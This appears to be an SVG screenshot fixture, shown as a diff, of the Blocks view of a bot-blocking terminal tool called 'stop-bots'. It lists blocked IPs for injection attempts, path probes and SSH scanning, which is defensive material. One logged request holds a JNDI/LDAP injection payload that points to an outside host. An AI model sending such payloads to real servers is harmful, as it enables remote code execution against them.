

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 931 384" width="931" height="384" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,'DejaVu Sans Mono',monospace" font-size="14">
  <rect width="100%" height="100%" rx="8" fill="#12161c" />
  <rect x="20.4" y="174.0" width="226.8" height="18.0" fill="#10262a" />
  <rect x="247.2" y="174.0" width="58.8" height="18.0" fill="#10262a" />
  <rect x="306.0" y="174.0" width="184.8" height="18.0" fill="#10262a" />
  <rect x="490.8" y="174.0" width="168.0" height="18.0" fill="#10262a" />
  <rect x="658.8" y="174.0" width="252.0" height="18.0" fill="#10262a" />
  <text x="12.0" y="25.5" fill="#2ee6d6" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">stop-bots</text>
  <text x="87.6" y="25.5" fill="#6b7c8c" textLength="126.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.10.0  web-01</text>
  <text x="12.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">1</text>
  <text x="28.8" y="43.5" fill="#6b7c8c" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Dashboard</text>
  <text x="129.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">2</text>
  <text x="146.4" y="43.5" fill="#6b7c8c" textLength="100.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Bot settings</text>
  <text x="272.4" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">3</text>
  <text x="289.2" y="43.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Firewall</text>
  <text x="381.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">4</text>
  <text x="398.4" y="43.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">NGINX</text>
  <text x="465.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5</text>
  <text x="482.4" y="43.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="558.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="574.8" y="43.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Help</text>
  <text x="852.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">v</text>
  <text x="860.4" y="43.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> simple</text>
  <text x="12.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">status</text>
-   <text x="79.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
-   <text x="96.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">kernel</text>
+   <text x="79.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
+   <text x="87.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> reboot  </text>
  <text x="163.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
-   <text x="171.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> reboot  </text>
+   <text x="171.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> script  </text>
  <text x="247.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
-   <text x="255.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> script  </text>
-   <text x="331.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
-   <text x="339.6" y="61.5" fill="#c8d0da" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> nginx  </text>
+   <text x="255.6" y="61.5" fill="#c8d0da" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> nginx  </text>
+   <text x="322.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
+   <text x="339.6" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">kernel</text>
  <text x="406.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="423.6" y="61.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">files</text>
  <text x="482.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="499.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">schedule</text>
  <text x="583.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="600.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">disk</text>
  <text x="650.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="667.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">database</text>
  <text x="751.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="768.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">logs</text>
  <text x="818.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="835.2" y="61.5" fill="#6b7c8c" textLength="84.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">log format</text>
  <text x="12.0" y="79.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5 rule(s)</text>
  <text x="87.6" y="79.5" fill="#c8d0da" textLength="151.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> from every source</text>
  <text x="238.8" y="79.5" fill="#6b7c8c" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">   f cycles the source</text>
  <text x="12.0" y="97.5" fill="#6b7c8c" textLength="487.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/ searches by address; an address finds the range it is in</text>
  <text x="12.0" y="115.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Not listed: 0 SSH-login and 0 trusted allow(s), and the downloaded lists (Dashboard). 0 address(es) unblocke</text>
  <text x="12.0" y="151.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌</text>
  <text x="20.4" y="151.5" fill="#2ee6d6" textLength="142.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold"> Blocks 1–5 of 5 </text>
  <text x="163.2" y="151.5" fill="#2ee6d6" textLength="756.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">─────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="169.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.201               </text>
  <text x="247.2" y="169.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="169.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">by hand (TUI)         </text>
  <text x="490.8" y="169.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  permanent </text>
  <text x="910.8" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="187.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">▎198.51.100.230            </text>
  <text x="247.2" y="187.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">block  </text>
  <text x="306.0" y="187.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Injection attempts    </text>
  <text x="490.8" y="187.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">  1m ago  for 7d    </text>
  <text x="658.8" y="187.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230 - - [10/Sep/202</text>
  <text x="910.8" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="205.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 203.0.113.9               </text>
  <text x="247.2" y="205.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="205.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Probe paths           </text>
  <text x="490.8" y="205.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="205.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">203.0.113.9 - - [10/Sep/2025:0</text>
  <text x="910.8" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="223.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 198.51.100.17             </text>
  <text x="247.2" y="223.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="223.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="223.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="223.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:12:33 host sshd[2211</text>
  <text x="910.8" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="241.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.44                </text>
  <text x="247.2" y="241.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="241.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="241.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="241.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:11:07 host sshd[2203</text>
  <text x="910.8" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="259.5" fill="#2ee6d6" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="277.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌ Why ─────────────────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="295.5" fill="#c8d0da" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230</text>
  <text x="138.0" y="295.5" fill="#c8d0da" textLength="772.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> — Injection attempts, added 1m ago                                                         </text>
  <text x="910.8" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="313.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">198.51.100.230 - - [10/Sep/2025:05:02:14 +0000] "GET /?x=${jndi:ldap://203.0.113.5/a} HTTP/1.1" 400 157   </text>
  <text x="910.8" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="331.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">"-" "curl/8.5.0"                                                                                          </text>
  <text x="910.8" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="349.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="367.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="79.2" y="367.5" fill="#2ee6d6" textLength="16.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">↑↓</text>
  <text x="104.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">move</text>
  <text x="154.8" y="367.5" fill="#2ee6d6" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Enter</text>
  <text x="205.2" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">unblock</text>
-   <text x="280.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">f</text>
-   <text x="297.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">source</text>
-   <text x="364.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/</text>
-   <text x="381.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">search</text>
-   <text x="448.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">:</text>
-   <text x="465.6" y="367.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">commands</text>
